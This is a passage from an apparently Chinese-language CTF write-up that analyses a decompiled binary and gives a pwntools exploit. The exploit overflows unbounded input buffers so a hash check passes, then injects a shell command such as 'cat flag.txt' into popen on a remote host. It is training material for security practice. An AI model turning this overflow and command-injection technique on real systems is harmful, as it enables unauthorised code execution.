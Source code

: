 ```c
  }
  while ( v5 != &v18 );
  v8 = strcmp(&v15, &v17);                      // 比较v15和v17，如果不同就报错
  if ( v8 )
  {
    puts("wrong password!");
    return 1;
  }
  v9 = popen(&v14, "r");                        // 把命令传到binsh执行
  if ( !v9 )
    return 1;
  while ( fgets(&s, 256, v9) )
    printf("%s", &s);
  fclose(v9);
  return v8;
}
```

剩下两个子函数不表，功能写在注释里了程序很简短，其中可以马上注意到很熟悉的危险函数strcpy()，再一看发现两个不是很熟悉的函数：getline和popen

- getline(char **lineptr, size_t *n, FILE *stream):将输入的字符串放入lineptr指向的空间，（如果为NULL则由系统malloc），n:如果是malloc出的则为0，stream：终止符（？）
  输入结束的方式为1. 读取字符数达到n，2.遇到函数终止符（\n），3.断开输入

可以看到，这里的getline也是一个没有限制输入的危险函数

- popen：将命令传入/bin/sh中由shell执行，分为输入和输出(w和r)

所以我们要做的就是让popen执行get flag 的命令。
![20201213144954](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20201213144954.png)
那么首先就要满足这个条件。再一看，发现v17的来源是(hex)v16，v16是经过sha256变换的des。所以想get shell只需要v15==v16
一看栈中变量的分布，发现它们都可以被覆盖呀！！！

所以exp就出来了：

```py
from pwn import *
import hashlib
p = remote("220.249.52.134", 52529)

v15 = hashlib.sha256("a"*0x100).hexdigest()

#p1 = "a"*0x100 + "ls;".ljust(0x1b, ) + v15 
p1 = "a"*0x100 + "cat flag.txt;".ljust(0x1b, ) + v15
#dest + cmd + sha256

p.sendline(p1)
print p.recv()
```

分两次进行，一次查看目录下的文件，第二次打开.txt文件

over

## time_formatter
